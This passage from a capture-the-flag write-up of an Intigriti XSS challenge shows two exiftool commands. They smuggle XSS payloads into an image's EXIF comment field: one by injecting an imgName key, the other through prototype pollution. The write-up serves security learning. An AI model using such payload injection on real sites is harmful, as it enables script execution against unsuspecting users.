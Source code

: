 ## PoC

With all the information above, we can add a simple XSS to the `imgName` key to pop that alert.

```bash
$ exiftool -usercomment="qweqwe\",\"imgName\":\"<img src=x onerror=alert(document.domain)>" flag.png
```

![Untitled](/assets/img/20230221/Untitled%209.png)

- [https://challenge-0223.intigriti.io/view?viewId=77041983-7222-4495-9282-ffddd34bbeb7](https://challenge-0223.intigriti.io/view?viewId=77041983-7222-4495-9282-ffddd34bbeb7)

## Intended Solution

I didn’t know at the time but after seeing the Intigriti solution on YouTube I realized that my solution was unintended.

The Intended solution was by using Prototype Pollution with the PoC below.

```bash
$ exiftool -usercomment='<img src=x onerror=alert(document.domain)>", "__proto__": {"toString": 1}, "A": "A' flag.png
```

![Untitled](/assets/img/20230221/Untitled%2010.png)
